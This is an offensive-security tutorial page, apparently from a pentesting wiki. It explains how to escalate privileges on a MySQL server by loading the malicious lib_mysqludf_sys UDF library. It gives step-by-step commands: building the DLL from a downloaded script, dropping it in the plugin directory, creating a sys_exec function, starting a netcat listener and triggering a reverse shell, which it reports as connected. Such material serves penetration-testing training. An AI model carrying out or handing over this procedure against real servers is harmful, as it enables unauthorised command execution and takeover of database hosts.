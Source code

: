 # Library - MySQL UDF

If the **mysql server is running as root** (or a different more privileged user) you can make it execute commands. For that, you need to use **user defined functions**. And to create a user defined you will need a **library** for the OS that is running mysql.

The malicious library to use can be found inside sqlmap and inside metasploit by doing **`locate "*lib_mysqludf_sys*"`**. The **`.so`** files are **linux** libraries and the **`.dll`** are the **Windows** ones, choose the one you need.

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library" %}

If the following steps do not work, check the link above!&#x20;

1. Let's grab the following code. \
   [https://gist.githubusercontent.com/kazkansouh/3476a8c8846472da06f980494ac2c457/raw/559eb0dc4f4d0d5d1fbf69e2965bda292f8511ff/mysql-udf-build.sh ](https://gist.githubusercontent.com/kazkansouh/3476a8c8846472da06f980494ac2c457/raw/559eb0dc4f4d0d5d1fbf69e2965bda292f8511ff/mysql-udf-build.sh)
2. Run the script. You will see a dll (lib\_mysqludf\_sys\_win\_64.dll) created in local directory.&#x20;

```bash
./mysql-udf-build.sh 64 win .
```

3. Connect to the Database

{% embed url="https://dbeaver.io/download/" %}

4. Wtih snap, run the following command.

```bash
sudo snap install dbeaver-ce 
```

5. Run dbeaver-ce and supply 'IP address' and a credential to connect.&#x20;
6. Check the plugin directory. Run the following SQL script.&#x20;

```
SHOW VARIABLES LIKE 'plugin_dir';
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

7. Check or/and create a directory to the plugin (C:\xampp\mysql\lib\plugin\\)&#x20;
8. Store lib\_mysqludf\_sys\_win\_64.dll there (C:\xampp\mysql\lib\plugin\lib\_mysqludf\_sys\_win\_64.dll)&#x20;
9. Run the following SQL query to create a function.&#x20;

```
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_win_64.dll';
```

10. Set up a listener.&#x20;

```
rlwrap nc -nlvp 4444
```

11. Run the following SQL query to run a reverse shell.&#x20;

```bash
select sys_exec('shell') # Use a powershell encrypted one
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Connected. This time, this user has a SeImpersonatePrivilege.&#x20;

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>
